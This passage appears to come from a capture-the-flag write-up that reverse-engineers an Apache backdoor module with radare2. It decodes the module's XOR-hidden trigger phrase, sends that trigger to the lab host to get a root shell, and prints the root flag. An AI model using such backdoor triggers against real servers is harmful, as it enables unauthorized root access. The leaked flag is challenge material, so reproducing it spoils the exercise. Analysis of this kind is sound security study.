0x000016e0   46 919  -> 902  sym.shell_spooler
0x00001a80    1 44           sym.rootme_register_hooks
0x00001ab0    1 16           sym.rootme_post_config
0x00001ac0    3 61           sym.darkarmy
0x00001b00    6 118  -> 116  sym.rootme_post_read_request
0x00001b78    1 9            sym._fini
[0x00000f70]> s sym.darkarmy
[0x00001ac0]> pdf
/ (fcn) sym.darkarmy 61
|   sym.darkarmy ();
|           ; CALL XREF from 0x00001b2a (sym.rootme_post_read_request)
|           0x00001ac0      bf0b000000     mov edi, 0xb
|           0x00001ac5      4883ec08       sub rsp, 8
|           0x00001ac9      e852f4ffff     call sym.imp.malloc         ;  void *malloc(size_t size)
|           0x00001ace      488d3d1d0100.  lea rdi, qword [0x00001bf2]
|           0x00001ad5      488d35210100.  lea rsi, qword str.HackTheBox ; 0x1bfd ; "HackTheBox"
|           0x00001adc      31d2           xor edx, edx
|           0x00001ade      6690           nop
|           ; JMP XREF from 0x00001af2 (sym.darkarmy)
|       .-> 0x00001ae0      0fb60c17       movzx ecx, byte [rdi + rdx]
|       :   0x00001ae4      320c16         xor cl, byte [rsi + rdx]
|       :   0x00001ae7      880c10         mov byte [rax + rdx], cl
|       :   0x00001aea      4883c201       add rdx, 1
|       :   0x00001aee      4883fa0a       cmp rdx, 0xa
|       `=< 0x00001af2      75ec           jne 0x1ae0
|           0x00001af4      c6400a00       mov byte [rax + 0xa], 0
|           0x00001af8      4883c408       add rsp, 8
\           0x00001afc      c3             ret
[0x00001ac0]> axt @sym.darkarmy
sym.rootme_post_read_request 0x1b2a [call] call sym.darkarmy
[0x00001ac0]> VV
```


```sh
[0x00001ac0]> px @0x00001bf2
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x00001bf2  0e14 0d38 3b0b 0c27 1b01 0048 6163 6b54  ...8;..'...HackT
0x00001c02  6865 426f 7800 6d6f 645f 726f 6f74 6d65  heBox.mod_rootme
0x00001c12  2e63 0000 0000 2f76 6172 2f77 7777 2f68  .c..../var/www/h
0x00001c22  746d 6c2f 7570 6c6f 6164 732f 7768 6974  tml/uploads/whit
0x00001c32  6572 6f73 652e 7478 7400 0000 0000 011b  erose.txt.......
0x00001c42  033b 5c00 0000 0a00 0000 20f2 ffff 7800  .;\....... ...x.
0x00001c52  0000 30f2 ffff a000 0000 30f4 ffff b800  ..0.......0.....
0x00001c62  0000 80f6 ffff f000 0000 f0f6 ffff 1801  ................
0x00001c72  0000 a0fa ffff 6801 0000 40fe ffff b801  ......h...@.....
0x00001c82  0000 70fe ffff d001 0000 80fe ffff e801  ..p.............
0x00001c92  0000 c0fe ffff 0002 0000 0000 0000 1400  ................
0x00001ca2  0000 0000 0000 017a 5200 0178 1001 1b0c  .......zR..x....
0x00001cb2  0708 9001 0000 2400 0000 1c00 0000 a0f1  ......$.........
0x00001cc2  ffff 1000 0000 000e 1046 0e18 4a0f 0b77  .........F..J..w
0x00001cd2  0880 003f 1a3b 2a33 2422 0000 0000 1400  ...?.;*3$"......
0x00001ce2  0000 4400 0000 88f1 ffff f800 0000 0000  ..D.............
[0x00001ac0]> pdf
/ (fcn) sym.darkarmy 61
|   sym.darkarmy ();
|           ; CALL XREF from 0x00001b2a (sym.rootme_post_read_request)
|           0x00001ac0      bf0b000000     mov edi, 0xb
|           0x00001ac5      4883ec08       sub rsp, 8
|           0x00001ac9      e852f4ffff     call sym.imp.malloc         ;  void *malloc(size_t size)
|           0x00001ace      488d3d1d0100.  lea rdi, qword [0x00001bf2]
|           0x00001ad5      488d35210100.  lea rsi, qword str.HackTheBox ; 0x1bfd ; "HackTheBox"
|           0x00001adc      31d2           xor edx, edx
|           0x00001ade      6690           nop
|           ; JMP XREF from 0x00001af2 (sym.darkarmy)
|       .-> 0x00001ae0      0fb60c17       movzx ecx, byte [rdi + rdx]
|       :   0x00001ae4      320c16         xor cl, byte [rsi + rdx]
|       :   0x00001ae7      880c10         mov byte [rax + rdx], cl
|       :   0x00001aea      4883c201       add rdx, 1
|       :   0x00001aee      4883fa0a       cmp rdx, 0xa
|       `=< 0x00001af2      75ec           jne 0x1ae0
|           0x00001af4      c6400a00       mov byte [rax + 0xa], 0
|           0x00001af8      4883c408       add rsp, 8
\           0x00001afc      c3             ret
[0x00001ac0]>
```

```
0e14 0d38 3b0b 0c27 1b01
```

```sh
root@kali:~/crimestoppers# python
Python 2.7.15rc1 (default, Apr 15 2018, 21:51:34)
[GCC 7.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> b1 = bytearray("\x0e\x14\x0d\x38\x3b\x0b\x0c\x27\x1b\x01")
>>> b2 = bytearray("HackTheBox")
>>> for i in range(0,10):
...     print chr(b1[i] ^ b2[i])
...
F
u
n
S
o
c
i
e
t
y
>>>
```

```sh
root@kali:~/crimestoppers# nc 10.10.10.80 80
GET FunSociety
rootme-0.5 DarkArmy Edition Ready

ls -l
total 191004
drwxr-xr-x   2 root root      4096 Dec 22 09:10 bin
drwxr-xr-x   3 root root      4096 Dec 16 13:25 boot
drwxr-xr-x  18 root root      3920 Jun  3 19:28 dev
drwxr-xr-x  89 root root      4096 Dec 23 11:59 etc
drwxr-xr-x   3 root root      4096 Dec 16 12:01 home
lrwxrwxrwx   1 root root        33 Dec 16 13:24 initrd.img -> boot/initrd.img-4.10.0-42-generic
lrwxrwxrwx   1 root root        33 Dec 16 13:20 initrd.img.old -> boot/initrd.img-4.10.0-19-generic
drwxr-xr-x  19 root root      4096 Dec 22 10:13 lib
drwxr-xr-x   2 root root      4096 Dec 16 13:23 lib64
drwx------   2 root root     16384 Dec 16 13:20 lost+found
drwxr-xr-x   4 root root      4096 Dec 16 13:20 media
drwxr-xr-x   2 root root      4096 Apr 11  2017 mnt
drwxr-xr-x   2 root root      4096 Dec 16 13:23 opt
dr-xr-xr-x 124 root root         0 Jun  3 19:28 proc
drwx------   4 root root      4096 Dec 25 18:09 root
drwxr-xr-x  20 root root       600 Jun  5 00:33 run
drwxr-xr-x   2 root root     12288 Dec 22 09:10 sbin
drwxr-xr-x   2 root root      4096 Apr 11  2017 srv
-rw-------   1 root root 195502080 Dec 16 13:20 swapfile
dr-xr-xr-x  13 root root         0 Jun  3 19:28 sys
drwxrwxrwt   2 root root      4096 Jun  4 23:55 tmp
drwxr-xr-x  10 root root      4096 Dec 16 13:20 usr
drwxr-xr-x  12 root root      4096 Dec 16 13:26 var
lrwxrwxrwx   1 root root        30 Dec 16 13:24 vmlinuz -> boot/vmlinuz-4.10.0-42-generic
lrwxrwxrwx   1 root root        30 Dec 16 13:20 vmlinuz.old -> boot/vmlinuz-4.10.0-19-generic
cd /root
ls -lah
total 44K
drwx------  4 root root 4.0K Dec 25 18:09 .
drwxr-xr-x 22 root root 4.0K Dec 16 13:33 ..
-rw-------  1 root root    1 Dec 22 10:37 .bash_history
-rw-r--r--  1 root root 3.1K Oct 22  2015 .bashrc
drwx------  2 root root 4.0K Dec 22 09:01 .cache
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-------  1 root root 1.0K Dec 24 11:23 .rnd
-rw-r--r--  1 root root   74 Dec 23 10:48 .selected_editor
drwx------  2 root root 4.0K Dec 16 13:39 .ssh
-rw-r--r--  1 root root  292 Dec 24 11:14 Congratulations.txt
-r--------  1 root root   33 Dec 24 11:23 root.txt
cat root.txt
91bb7714c560e0e885e049c2f579644a
^C
root@kali:~/crimestoppers#
```

```sh
root@kali:~/crimestoppers# r2 mod_rootme.so
[0x00000f70]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[x] Use -AA or aaaa to perform additional experimental analysis.
[x] Constructing a function name for fcn.* and sym.func.* functions (aan)
[0x00000f70]> afl
0x00000e40    3 23           sym._init
0x00000e70    1 6            sym.imp.free
0x00000e78    1 6            sym.imp.recv
0x00000e80    1 6            sym.imp.strncpy
0x00000e88    1 6            sym.imp.write
0x00000e90    1 6            sym.imp.shutdown
0x00000e98    1 6            sym.imp.chdir
0x00000ea0    1 6            sym.imp.__stack_chk_fail
0x00000ea8    1 6            sym.imp.dup2
0x00000eb0    1 6            sym.imp.send
0x00000eb8    1 6            sym.imp.__fdelt_chk
0x00000ec0    1 6            loc.imp.ap_hook_post_config
0x00000ec8    1 6            sym.imp.ioctl
0x00000ed0    1 6            sym.imp.close
0x00000ed8    1 6            sym.imp.pipe
0x00000ee0    1 6            sym.imp.setsid
0x00000ee8    1 6            sym.imp.read
0x00000ef0    1 6            sym.imp.putenv
0x00000f00    1 6            sym.imp.strcmp
0x00000f08    1 6            sym.imp.kill
0x00000f10    1 6            sym.imp.openpty
0x00000f18    1 6            sym.imp.select
0x00000f20    1 6            sym.imp.malloc
0x00000f28    1 6            sym.imp.ttyname
0x00000f30    1 6            sym.imp.waitpid
0x00000f38    1 6            sym.imp.access
0x00000f40    1 6            sym.imp.getppid
0x00000f48    1 6            sym.imp.exit
0x00000f50    1 6            sym.imp.execlp
0x00000f58    1 6            sym.imp.__cxa_finalize
0x00000f60    1 6            sym.imp.fork
0x00000f70    4 50   -> 44   entry0
0x00000fb0    4 66   -> 57   sym.register_tm_clones
0x00001000    5 50           sym.__do_global_dtors_aux
0x00001040    4 48   -> 42   entry1.init
0x00001070   16 586  -> 563  sym.process_client
0x000012c0    1 100          sym.runshell_raw
0x00001330   27 934  -> 904  sym.runshell_pty
0x000016e0   46 919  -> 902  sym.shell_spooler
0x00001a80    1 44           sym.rootme_register_hooks
0x00001ab0    1 16           sym.rootme_post_config
0x00001ac0    3 61           sym.darkarmy
0x00001b00    6 118  -> 116  sym.rootme_post_read_request
0x00001b78    1 9            sym._fini
[0x00000f70]> s sym.darkarmy
[0x00001ac0]> iz
000 0x00001b8d 0x00001b8d  26  27 (.rodata) ascii /usr/sbin/apache2 -k start
001 0x00001ba8 0x00001ba8   4   5 (.rodata) ascii bash
002 0x00001bad 0x00001bad   7   8 (.rodata) ascii /bin/sh
003 0x00001bb5 0x00001bb5   9  10 (.rodata) ascii HISTFILE=
004 0x00001bbf 0x00001bbf  13  14 (.rodata) ascii HOME=/var/tmp
005 0x00001bd0 0x00001bd0  33  34 (.rodata) ascii rootme-0.5 DarkArmy Edition Ready
006 0x00001bf4 0x00001bf4   7   8 (.rodata) ascii \r8;\v\f'\e
007 0x00001bfd 0x00001bfd  10  11 (.rodata) ascii HackTheBox
008 0x00001c08 0x00001c08  12  13 (.rodata) ascii mod_rootme.c
009 0x00001c18 0x00001c18  35  36 (.rodata) ascii /var/www/html/uploads/whiterose.txt
000 0x00003048 0x00203048   4   5 (.data) ascii 42PA

[0x00001ac0]> izz
000 0x00000034 0x00000034   6  14 (LOAD0) utf16le @8\a@"!
001 0x00000721 0x00000721  14  15 (.dynstr) ascii __gmon_start__
002 0x00000730 0x00000730   5   6 (.dynstr) ascii _init
003 0x00000736 0x00000736   5   6 (.dynstr) ascii _fini
004 0x0000073c 0x0000073c  27  28 (.dynstr) ascii _ITM_deregisterTMCloneTable
005 0x00000758 0x00000758  25  26 (.dynstr) ascii _ITM_registerTMCloneTable
006 0x00000772 0x00000772  14  15 (.dynstr) ascii __cxa_finalize
007 0x00000781 0x00000781  19  20 (.dynstr) ascii _Jv_RegisterClasses
008 0x00000795 0x00000795  14  15 (.dynstr) ascii process_client
009 0x000007a4 0x000007a4   6   7 (.dynstr) ascii pipe_A
010 0x000007ab 0x000007ab   5   6 (.dynstr) ascii write
011 0x000007b1 0x000007b1   4   5 (.dynstr) ascii exit
012 0x000007b6 0x000007b6   6   7 (.dynstr) ascii pipe_B
013 0x000007bd 0x000007bd   4   5 (.dynstr) ascii read
014 0x000007c2 0x000007c2  11  12 (.dynstr) ascii __fdelt_chk
015 0x000007ce 0x000007ce   6   7 (.dynstr) ascii select
016 0x000007d5 0x000007d5   4   5 (.dynstr) ascii send
017 0x000007da 0x000007da   8   9 (.dynstr) ascii shutdown
018 0x000007e3 0x000007e3   4   5 (.dynstr) ascii recv
019 0x000007e8 0x000007e8  12  13 (.dynstr) ascii runshell_raw
020 0x000007f5 0x000007f5   6   7 (.dynstr) ascii setsid
021 0x000007fc 0x000007fc   4   5 (.dynstr) ascii dup2
022 0x00000801 0x00000801   6   7 (.dynstr) ascii execlp
023 0x00000808 0x00000808  12  13 (.dynstr) ascii runshell_pty
024 0x00000815 0x00000815   7   8 (.dynstr) ascii openpty
025 0x0000081d 0x0000081d   7   8 (.dynstr) ascii ttyname
026 0x00000825 0x00000825   5   6 (.dynstr) ascii ioctl
027 0x0000082b 0x0000082b   6   7 (.dynstr) ascii malloc
028 0x00000832 0x00000832   7   8 (.dynstr) ascii strncpy
029 0x0000083a 0x0000083a   6   7 (.dynstr) ascii putenv
030 0x00000841 0x00000841   4   5 (.dynstr) ascii free
031 0x00000846 0x00000846   4   5 (.dynstr) ascii fork
032 0x0000084b 0x0000084b   5   6 (.dynstr) ascii close
033 0x00000851 0x00000851   5   6 (.dynstr) ascii chdir
034 0x00000857 0x00000857  16  17 (.dynstr) ascii __stack_chk_fail
035 0x00000868 0x00000868  13  14 (.dynstr) ascii shell_spooler
036 0x00000876 0x00000876   7   8 (.dynstr) ascii pidlist
037 0x0000087e 0x0000087e   4   5 (.dynstr) ascii pipe
038 0x00000883 0x00000883   7   8 (.dynstr) ascii getppid
039 0x0000088b 0x0000088b   7   8 (.dynstr) ascii waitpid
040 0x00000893 0x00000893   4   5 (.dynstr) ascii kill
041 0x00000898 0x00000898  19  20 (.dynstr) ascii ap_hook_post_config
042 0x000008ac 0x000008ac  25  26 (.dynstr) ascii ap_hook_post_read_request
043 0x000008c6 0x000008c6   8   9 (.dynstr) ascii darkarmy
044 0x000008cf 0x000008cf  11  12 (.dynstr) ascii core_module
045 0x000008db 0x000008db   6   7 (.dynstr) ascii strcmp
046 0x000008e2 0x000008e2   6   7 (.dynstr) ascii access
047 0x000008e9 0x000008e9  13  14 (.dynstr) ascii rootme_module
048 0x000008f7 0x000008f7  12  13 (.dynstr) ascii libutil.so.1
049 0x00000904 0x00000904   9  10 (.dynstr) ascii libc.so.6
050 0x0000090e 0x0000090e   6   7 (.dynstr) ascii _edata
051 0x00000915 0x00000915  11  12 (.dynstr) ascii __bss_start
052 0x00000921 0x00000921   4   5 (.dynstr) ascii _end
053 0x00000926 0x00000926  13  14 (.dynstr) ascii mod_rootme.so
054 0x00000934 0x00000934  11  12 (.dynstr) ascii GLIBC_2.2.5
055 0x00000940 0x00000940  10  11 (.dynstr) ascii GLIBC_2.15
056 0x0000094b 0x0000094b   9  10 (.dynstr) ascii GLIBC_2.4
057 0x00000e61 0x00000e61   4   5 (.plt) ascii 5R
058 0x00000e67 0x00000e67   4   5 (.plt) ascii %T
059 0x00000e71 0x00000e71   4   5 (.plt.got) ascii %R
060 0x00000e79 0x00000e79   4   5 (.plt.got) ascii %R
061 0x00000e81 0x00000e81   4   5 (.plt.got) ascii %R
062 0x00000e89 0x00000e89   4   5 (.plt.got) ascii %Z
063 0x00000e91 0x00000e91   4   5 (.plt.got) ascii %Z
064 0x00000e99 0x00000e99   4   5 (.plt.got) ascii %j
065 0x00000ea1 0x00000ea1   4   5 (.plt.got) ascii %j
066 0x00000ea9 0x00000ea9   4   5 (.plt.got) ascii %j
067 0x00000eb1 0x00000eb1   4   5 (.plt.got) ascii %j
068 0x00000eb9 0x00000eb9   4   5 (.plt.got) ascii %j
069 0x00000ec1 0x00000ec1   4   5 (.plt.got) ascii %j
070 0x00000ec9 0x00000ec9   4   5 (.plt.got) ascii %j
071 0x00000ed1 0x00000ed1   4   5 (.plt.got) ascii %j
072 0x00000ed9 0x00000ed9   4   5 (.plt.got) ascii %j
073 0x00000ee1 0x00000ee1   4   5 (.plt.got) ascii %j
074 0x00000ee9 0x00000ee9   4   5 (.plt.got) ascii %j
075 0x00000ef1 0x00000ef1   4   5 (.plt.got) ascii %j
076 0x00000ef9 0x00000ef9   4   5 (.plt.got) ascii %j
077 0x00000f01 0x00000f01   4   5 (.plt.got) ascii %j
078 0x00000f09 0x00000f09   4   5 (.plt.got) ascii %r
079 0x00000f11 0x00000f11   4   5 (.plt.got) ascii %r
080 0x00000f19 0x00000f19   4   5 (.plt.got) ascii %r
081 0x00000f21 0x00000f21   4   5 (.plt.got) ascii %r
082 0x00000f29 0x00000f29   4   5 (.plt.got) ascii %r
083 0x00000f31 0x00000f31   4   5 (.plt.got) ascii %r
084 0x00000f39 0x00000f39   4   5 (.plt.got) ascii %r
085 0x00001070 0x00001070   4   5 (.text) ascii AWAV
086 0x00001079 0x00001079   5   6 (.text) ascii AUATA
087 0x000010a1 0x000010a1   4   6 (.text)  utf8 1\t|$
088 0x000010eb 0x000010eb   4   6 (.text)  utf8 uԃ|$ blocks=Basic Latin,Cyrillic Supplement
089 0x00001149 0x00001149   4   5 (.text) ascii HcD$
090 0x0000115c 0x0000115c   4   5 (.text) ascii HcT$
091 0x0000118a 0x0000118a   5   6 (.text) ascii  HcD$
092 0x000011b5 0x000011b5   4   5 (.text) ascii HcD$
093 0x000011c3 0x000011c3   4   5 (.text) ascii HcT$
094 0x00001215 0x00001215   4   5 (.text) ascii 4$Hc
095 0x00001262 0x00001262   4   6 (.text)  utf8 4$1ɺ blocks=Basic Latin,IPA Extensions
096 0x0000127a 0x0000127a   4   5 (.text) ascii HcD$
097 0x00001330 0x00001330   5   6 (.text) ascii AWAVA
098 0x00001337 0x00001337   6   7 (.text) ascii AUATE1
099 0x000013a7 0x000013a7   4   5 (.text) ascii @t.H
100 0x000013c8 0x000013c8  10  11 (.text) ascii []A\A]A^A_
101 0x00001588 0x00001588   4   5 (.text) ascii Hc|$
102 0x000015cf 0x000015cf   4   5 (.text) ascii Hc|$
103 0x00001661 0x00001661   5   6 (.text) ascii L$\bH9
104 0x000016a5 0x000016a5   5   6 (.text) ascii L$\bH9
105 0x000016e0 0x000016e0   5   6 (.text) ascii AWAV1
106 0x000016e6 0x000016e6   7   8 (.text) ascii AUATUSH
107 0x0000172e 0x0000172e  10  11 (.text) ascii []A\A]A^A_
108 0x0000176b 0x0000176b   6   7 (.text) ascii HcD$,L
109 0x00001794 0x00001794   4   5 (.text) ascii D$,~
110 0x000017ac 0x000017ac   4   5 (.text) ascii D$\fH
111 0x000017b1 0x000017b1   4   5 (.text) ascii D$0L
112 0x000017b6 0x000017b6   4   5 (.text) ascii d$@H
113 0x000017c0 0x000017c0   4   5 (.text) ascii D$,H
114 0x000017d5 0x000017d5   7   8 (.text) ascii 9D$\fud1
115 0x000018f6 0x000018f6   5   6 (.text) ascii Hc\$,
116 0x00001916 0x00001916   6   7 (.text) ascii HcD$,A
117 0x000019a7 0x000019a7   6   7 (.text) ascii HcT$,A
118 0x000019c0 0x000019c0   6   7 (.text) ascii HcD$,A
119 0x000019de 0x000019de   6   7 (.text) ascii HcD$,A
120 0x00001a15 0x00001a15   8   9 (.text) ascii u<HcD$,H
121 0x00001a3b 0x00001a3b   6   7 (.text) ascii HcD$,A
122 0x00001a5f 0x00001a5f   6   7 (.text) ascii HcD$,A
123 0x00001b12 0x00001b12   7   8 (.text) ascii G\bHcR\bH
124 0x00001b8d 0x00001b8d  26  27 (.rodata) ascii /usr/sbin/apache2 -k start
125 0x00001ba8 0x00001ba8   4   5 (.rodata) ascii bash
126 0x00001bad 0x00001bad   7   8 (.rodata) ascii /bin/sh
127 0x00001bb5 0x00001bb5   9  10 (.rodata) ascii HISTFILE=
128 0x00001bbf 0x00001bbf  13  14 (.rodata) ascii HOME=/var/tmp
129 0x00001bd0 0x00001bd0  33  34 (.rodata) ascii rootme-0.5 DarkArmy Edition Ready
130 0x00001bf4 0x00001bf4   7   8 (.rodata) ascii \r8;\v\f'\e
131 0x00001bfd 0x00001bfd  10  11 (.rodata) ascii HackTheBox
132 0x00001c08 0x00001c08  12  13 (.rodata) ascii mod_rootme.c
133 0x00001c18 0x00001c18  35  36 (.rodata) ascii /var/www/html/uploads/whiterose.txt
134 0x00001cb0 0x00001cb0   4   5 (.eh_frame) ascii \e\f\a\b
135 0x00001cd7 0x00001cd7   5   6 (.eh_frame) ascii ;*3$"
136 0x00003048 0x00203048   4   5 (.data) ascii 42PA
137 0x00003088 0x00000000  44  45 (.comment) ascii GCC: (Ubuntu 6.3.0-12ubuntu2) 6.3.0 20170406
138 0x00003435 0x00000320   4   5 (.debug_info) ascii \b\f\eX
139 0x00003fcc 0x00000eb7   4   5 (.debug_info) ascii )__d
140 0x00003ff2 0x00000edd   4   5 (.debug_info) ascii )__d
141 0x0000402b 0x00000f16   4   5 (.debug_info) ascii )__d
142 0x0000405d 0x00000f48   4   5 (.debug_info) ascii )__d
143 0x000042b0 0x0000119b   5   6 (.debug_info) ascii ~)pid
144 0x000042ea 0x000011d5   4   5 (.debug_info) ascii ~*tv
145 0x00004322 0x0000120d   4   5 (.debug_info) ascii )__d
146 0x00004354 0x0000123f   4   5 (.debug_info) ascii )__d
147 0x00004640 0x0000152b   4   5 (.debug_info) ascii 2__n
148 0x00004684 0x0000156f   5   6 (.debug_info) ascii TERM=
149 0x00004721 0x0000160c   4   5 (.debug_info) ascii \tl6\r
150 0x00004c9b 0x00001b86   4   5 (.debug_info) ascii \f\tF\n
151 0x00004e55 0x00001d40   4   5 (.debug_info) ascii @\t.\t
152 0x00005229 0x00002114   4   5 (.debug_info) ascii \f\ta\r
153 0x0000524d 0x00002138   4   5 (.debug_info) ascii  \tN\f
154 0x00005439 0x00002324   4   5 (.debug_info) ascii 0\tT\n
155 0x000054c6 0x000023b1   4   5 (.debug_info) ascii (\tj\t
156 0x000056ff 0x000025ea   4   5 (.debug_info) ascii \edir
157 0x00005812 0x000026fd   4   5 (.debug_info) ascii \elog
158 0x000059e8 0x000028d3   4   5 (.debug_info) ascii H\eid
159 0x00005a28 0x00002913   5   6 (.debug_info) ascii p\esbh
160 0x00005ab0 0x0000299b   4   5 (.debug_info) ascii \elog
161 0x00005d6c 0x00002c57   4   5 (.debug_info) ascii $uri
162 0x00005dea 0x00002cd5   4   5 (.debug_info) ascii $log
163 0x00005fb5 0x00002ea0   4   5 (.debug_info) ascii P%f\b
164 0x0000605a 0x00002f45   4   5 (.debug_info) ascii \ectx
165 0x000062a0 0x0000318b   4   5 (.debug_info) ascii #1\\e
166 0x000062fa 0x000031e5   4   5 (.debug_info) ascii #Jg\e
167 0x000063b5 0x000032a0   5   6 (.debug_info) ascii X\ecmd
168 0x00006547 0x00003432   4   5 (.debug_info) ascii \b\t&\f
169 0x00006a00 0x000038eb   4   5 (.debug_info) ascii  \t/\f
170 0x00006a0c 0x000038f7   4   5 (.debug_info) ascii (\t\v\f
171 0x00006c38 0x00003b23   4   5 (.debug_info) ascii \n9V\f
172 0x00006d48 0x00000016   4   5 (.debug_abbrev) ascii \v\v>\v
173 0x00006d53 0x00000021   4   5 (.debug_abbrev) ascii \v\v>\v
174 0x00006d60 0x0000002e   5   6 (.debug_abbrev) ascii :\v;\vI
175 0x00006d8b 0x00000059   6   7 (.debug_abbrev) ascii \v\v:\v;\v
176 0x00006d9a 0x00000068   5   6 (.debug_abbrev) ascii :\v;\vI
177 0x00006da7 0x00000075   6   7 (.debug_abbrev) ascii \v\v:\v;\v
178 0x00006de2 0x000000b0   5   6 (.debug_abbrev) ascii :\v;\vI
179 0x00006e02 0x000000d0   4   5 (.debug_abbrev) ascii :\v;\v
180 0x00006e12 0x000000e0   5   6 (.debug_abbrev) ascii :\v;\vI
181 0x00006e5a 0x00000128   4   5 (.debug_abbrev) ascii \b:\v;
182 0x00006e69 0x00000137   4   5 (.debug_abbrev) ascii \b:\v;
183 0x00006ee8 0x000001b6   4   5 (.debug_abbrev) ascii \aX\vY
184 0x00006f1c 0x000001ea   5   6 (.debug_abbrev) ascii :\v;\v'
185 0x00006f34 0x00000202   5   6 (.debug_abbrev) ascii :\v;\vI
186 0x00006f42 0x00000210   6   7 (.debug_abbrev) ascii \b:\v;\vI
187 0x00006f51 0x0000021f   6   7 (.debug_abbrev) ascii \b:\v;\vI
188 0x00006f61 0x0000022f   5   6 (.debug_abbrev) ascii :\v;\vI
189 0x00006f70 0x0000023e   5   6 (.debug_abbrev) ascii :\v;\vI
190 0x00006f80 0x0000024e   5   6 (.debug_abbrev) ascii \aX\vY\v
191 0x00006f92 0x00000260   4   5 (.debug_abbrev) ascii X\vY\v
192 0x00006f9f 0x0000026d   5   6 (.debug_abbrev) ascii :\v;\vI
193 0x00006fb0 0x0000027e   5   6 (.debug_abbrev) ascii :\v;\v'
194 0x00006fc5 0x00000293   5   6 (.debug_abbrev) ascii :\v;\vI
195 0x00006fd1 0x0000029f   6   7 (.debug_abbrev) ascii \b:\v;\vI
196 0x00006fe5 0x000002b3   4   5 (.debug_abbrev) ascii :\v;\v
197 0x00006ff6 0x000002c4   5   6 (.debug_abbrev) ascii :\v;\vn
198 0x0000703a 0x00000308   4   5 (.debug_abbrev) ascii \v\v>\v
199 0x00007045 0x00000313   4   5 (.debug_abbrev) ascii \v\v>\v
200 0x00007052 0x00000320   5   6 (.debug_abbrev) ascii :\v;\vI
201 0x00007076 0x00000344   6   7 (.debug_abbrev) ascii \v\v:\v;\v
202 0x00007085 0x00000353   5   6 (.debug_abbrev) ascii :\v;\vI
203 0x000070e3 0x000003b1   5   6 (.debug_abbrev) ascii :\v;\vI
204 0x000070f6 0x000003c4   4   5 (.debug_abbrev) ascii :\v;\v
205 0x0000710c 0x000003da   4   5 (.debug_abbrev) ascii :\v;\v
206 0x0000711a 0x000003e8   6   7 (.debug_abbrev) ascii \v\v:\v;\v
207 0x00007129 0x000003f7   5   6 (.debug_abbrev) ascii :\v;\vI
208 0x00007135 0x00000403   6   7 (.debug_abbrev) ascii \b:\v;\vI
209 0x00007144 0x00000412   6   7 (.debug_abbrev) ascii \b:\v;\vI
210 0x00007152 0x00000420   5   6 (.debug_abbrev) ascii \v\v:\v;
211 0x00007160 0x0000042e   4   5 (.debug_abbrev) ascii \b:\v;
212 0x00007189 0x00000457   6   7 (.debug_abbrev) ascii \v\v:\v;\v
213 0x000071a5 0x00000473   8   9 (.debug_abbrev) ascii \v\v\r\v\f\v8\v
214 0x000071d1 0x0000049f   4   5 (.debug_abbrev) ascii \b:\v;
215 0x000071e1 0x000004af   5   6 (.debug_abbrev) ascii :\v;\vI
216 0x000071e7 0x000004b5   8   9 (.debug_abbrev) ascii \v\v\r\v\f\v8\v
217 0x00007209 0x000004d7   4   5 (.debug_abbrev) ascii :\v;\v
218 0x00007214 0x000004e2   5   6 (.debug_abbrev) ascii \v\v:\v;
219 0x00007223 0x000004f1   6   7 (.debug_abbrev) ascii \v\v:\v;\v
220 0x00007232 0x00000500   5   6 (.debug_abbrev) ascii :\v;\vI
221 0x00007243 0x00000511   5   6 (.debug_abbrev) ascii :\v;\v'
222 0x0000725a 0x00000528   6   7 (.debug_abbrev) ascii \b:\v;\vI
223 0x00007291 0x0000055f   5   6 (.debug_abbrev) ascii :\v;\v'
224 0x000072aa 0x00000578   6   7 (.debug_abbrev) ascii \b:\v;\vI
225 0x000072ba 0x00000588   5   6 (.debug_abbrev) ascii :\v;\vI
226 0x000072d4 0x000005a2   5   6 (.debug_abbrev) ascii :\v;\vI
227 0x000072f9 0x000005c7   5   6 (.debug_abbrev) ascii :\v;\vI
228 0x00007311 0x000005df   5   6 (.debug_abbrev) ascii :\v;\vI
229 0x00007320 0x000005ee   5   6 (.debug_abbrev) ascii :\v;\vI
230 0x0000732f 0x000005fd   5   6 (.debug_abbrev) ascii :\v;\vI
231 0x00007355 0x00000623   5   6 (.debug_abbrev) ascii :\v;\vn
232 0x00007368 0x00000636   4   5 (.debug_abbrev) ascii :\v;\v
233 0x0000738a 0x0000001b  34  35 (.debug_line) ascii /usr/include/x86_64-linux-gnu/bits
234 0x000073ad 0x0000003e  33  34 (.debug_line) ascii /usr/include/x86_64-linux-gnu/sys
235 0x000073cf 0x00000060  39  40 (.debug_line) ascii /usr/lib/gcc/x86_64-linux-gnu/6/include
236 0x000073f7 0x00000088  12  13 (.debug_line) ascii /usr/include
237 0x00007405 0x00000096  12  13 (.debug_line) ascii mrm_server.c
238 0x00007415 0x000000a6   8   9 (.debug_line) ascii unistd.h
239 0x00007421 0x000000b2   9  10 (.debug_line) ascii socket2.h
240 0x0000742e 0x000000bf   9  10 (.debug_line) ascii string3.h
241 0x0000743b 0x000000cc   7   8 (.debug_line) ascii types.h
242 0x00007446 0x000000d7   7   8 (.debug_line) ascii types.h
243 0x00007451 0x000000e2   8   9 (.debug_line) ascii stddef.h
244 0x0000745d 0x000000ee   6   7 (.debug_line) ascii time.h
245 0x00007467 0x000000f8   8   9 (.debug_line) ascii select.h
246 0x00007473 0x00000104  10  11 (.debug_line) ascii sockaddr.h
247 0x00007481 0x00000112   8   9 (.debug_line) ascii socket.h
248 0x0000748d 0x0000011e  13  14 (.debug_line) ascii ioctl-types.h
249 0x0000749e 0x0000012f   8   9 (.debug_line) ascii signal.h
250 0x000074aa 0x0000013b   6   7 (.debug_line) ascii time.h
251 0x000074b4 0x00000145   8   9 (.debug_line) ascii unistd.h
252 0x000074c0 0x00000151   8   9 (.debug_line) ascii getopt.h
253 0x000074cc 0x0000015d   7   8 (.debug_line) ascii libio.h
254 0x000074d7 0x00000168   7   8 (.debug_line) ascii stdio.h
255 0x000074e2 0x00000173  13  14 (.debug_line) ascii sys_errlist.h
256 0x000074f3 0x00000184  10  11 (.debug_line) ascii <built-in>
257 0x00007501 0x00000192   9  10 (.debug_line) ascii select2.h
258 0x0000750e 0x0000019f   5   6 (.debug_line) ascii pty.h
259 0x00007517 0x000001a8   7   8 (.debug_line) ascii ioctl.h
260 0x00007522 0x000001b3   8   9 (.debug_line) ascii stdlib.h
